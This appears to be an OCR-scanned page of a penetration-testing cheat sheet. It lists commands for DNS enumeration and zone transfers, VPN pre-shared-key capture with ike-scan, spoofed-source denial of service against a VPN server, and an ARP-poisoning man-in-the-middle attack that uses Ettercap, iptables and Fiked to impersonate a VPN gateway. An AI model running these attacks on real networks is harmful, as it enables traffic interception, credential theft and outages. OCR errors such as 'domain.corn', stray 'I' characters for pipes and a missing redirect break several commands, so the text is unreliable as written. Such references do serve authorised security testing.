 ```text
tcpreplay --topspeed --loop=O --intf=eth0 .pcap_file_to replay rnbps=10|100|1000
```

### DNSRecon

```text
Reverse lookup for IP range:
./dnsrecon.rb -t rvs -i 192.1.1.1,192.1.1.20
Retrieve standard DNS records:
./dnsrecon.rb -t std -d domain.corn
Enumerate subdornains:
./dnsrecon.rb -t brt -d domain.corn -w hosts.txt
DNS zone transfer:
./dnsrecon -d domain.corn -t axfr
```

### Nmap reverse dns lookup and output parser

```text
nmap -R -sL -Pn -dns-servers dns svr ip range | awk '{if( ($1" "$2"
"$3)=="Nmap scan report")print$5" "$6}' | sed 's/(//g' I sed 's/)//g'
dns.txt
```

## VPN

### Write psk to file

```text
ike-scan -M -A vpn ip -P file
```

### Dos vpn server

```text
ike-scan -A -t 1 --sourceip= spoof ip dst ip
```

### Fiked - fake vpn server

```text
Must know the VPN group name a~d pre-shared key;
1. Ettercap filter to drop IPSEC traffic (UDP port 500)
   if(ip.proto == UDP && udp.scc == 500) {
      kill();
      drop();
      msg (" UDP packet dropped ") ;
2. Compile filter
   etterfilter udpdrop.filter -o udpdrop.ef
3. Start Ettercap and drop all IPSEC ~raffic
   #ettercap -T -g -M arp -F udpdrop.ef // //
4. Enable IP Forward
   echo "1" /proc/sys/net/ipv4/ip_forward
5. Configure IPtables to port forward to Fiked server
    iptables -t nat -A PREROUTING -p udp -I eth0 -d VPN Server IP -j
   DNAT - - to Attacking Host IP
    iptables -P FORWARD ACCEP~
6. Start Fiked to impersonate the VPN Server
   fiked - g vpn gatewa; ip - k VPN Group Name:Group Pre-Shared Ke;
7. Stop Ettercap
8. Restart Ettercap without the filter
   ettercap -T -M arp II II
```
